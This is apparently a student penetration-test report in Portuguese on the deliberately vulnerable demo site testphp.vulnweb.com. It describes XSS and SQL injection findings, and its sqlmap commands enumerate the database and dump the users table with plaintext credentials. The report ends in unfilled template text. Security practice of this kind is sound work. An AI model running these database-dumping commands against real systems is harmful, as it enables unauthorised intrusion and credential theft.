

# Relatório Testphp

## Arquitetura do Sistema:
  IPs: 44.228.249.3
  DNS: ec2-44-228-249-3.us-west-2.compute.amazonaws.com
  Servidor Web: Nginx 1.19.0 porta 80 http
  Hosting: VPC Amazon Ec2

## Tech Stack
    Nginx
    PHP
    MySQL
    HTML, CSS e JavaScript

## Potenciais Ameaças
  - **Cross Site Scripting(XSS):** 
  
  É a vulnerabilidade que pode ser explorada na maioria dos endpoints, seja na tela de login ou em na barra de busca, para este site demonstrei com [dois prints diferentes](./assets/screenshots/xss/), um exemplo utilizei o comando *alert* do javascript e no segundo utilizei o famigerado *console.log*.

  - **SQLInjection:**
  
  Foram detectadas as seguintes vulnerabilidades: boolean-based blind; time-based blind; UNION query; estas foram encontradas testando o parametro *artist* e *test* método http GET, diretamente passando as queries pela URL.

  - **Cross Site Request Forge (CSRF):**

## Resultados
Resultados do SQLInjection:

Comando para executar o sqlmap com menu interativo:
```bash
sqlmap testphp.vulnweb.com/artist.php?artist=1 --wizard
```

Aqui escolheremos --level=1 para ser um teste que não vá tão fundo nas requisições.
```bash
Injection difficulty (--level/--risk). Please choose:
[1] Normal (default)
[2] Medium
[3] Hard
> 1
```

Escolheremos a opção 2, a opção intermediaria retornará as principais tabelas e os bancos de dados
```bash
Enumeration (--banner/--current-user/etc). Please choose:
[1] Basic (default)
[2] Intermediate
[3] All
> 2
```

Observando o resultado conseguimos encontrar uma tabela de usuarios com informações de nome,e-mail,senha e outros. Testaremos essa tabela no próximo comando.



Agora que sabemos qual banco de dados (acuart) e qual tabela possui informações sobre os usuários podemos rodar o seguinte comando: -D especifica o banco de dados -T a tabela e o comando --dump retorna os dados encontrados.
```bash
sqlmap -u "testphp.vulnweb.com/artists.php?artist=1" -D acuart -T users --dump
```
Voilà! Aqui podemos observar outra falha na segurança, os dados **não estão criptografados** e conseguimos extrair o login e senha:


**Vulnerabilidades encontradas:**
- **Descrição:** O que foi encontrado (ex: falha de autenticação, execução remota de código, etc.).
- **Severidade:** Classificação das vulnerabilidades, de acordo com sua criticidade. Você pode usar as classificações do CVSS (Common Vulnerability Scoring System) ou uma escala própria.
- **Ferramenta Utilizada:** Nomes das ferramentas de pentest utilizadas para identificar as vulnerabilidades.
- **Impacto:** O impacto potencial da vulnerabilidade se explorada por um atacante.

Exemplo de vulnerabilidade:
- **Vulnerabilidade 1: Execução Remota de Código via RCE (CVE-XXXX-YYYY)**
  - **Descrição:** Foi identificada uma falha de execução remota de código no serviço X, acessível pela porta Y.
  - **Severidade:** Crítica (CVSS: 9.8)
  - **Impacto:** Um atacante pode executar comandos arbitrários no sistema remoto.
  - **Ferramenta Utilizada:** Nessus, manualmente explorado com Metasploit.
